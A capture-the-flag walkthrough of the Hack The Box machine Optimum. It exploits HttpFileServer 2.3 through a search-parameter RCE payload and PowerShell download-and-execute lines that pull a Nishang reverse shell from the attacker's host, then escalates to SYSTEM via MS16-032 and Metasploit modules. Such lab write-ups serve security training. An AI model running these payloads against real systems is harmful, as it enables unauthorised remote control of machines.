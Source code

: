```yaml
---
layout: PostSimple
date: 2020-02-26
title:     "Hack The Box - Optimum"
tags: ['windows','easy','sherlock','empire','rce','nishang']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/6](https://www.hackthebox.eu/home/machines/profile/6)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/4.png)[br/](br/)
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/5.png)[br/](br/)

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/20.png)[br/](br/)
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/9.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/15.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/18.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/19.png)

We got authority\system !! 
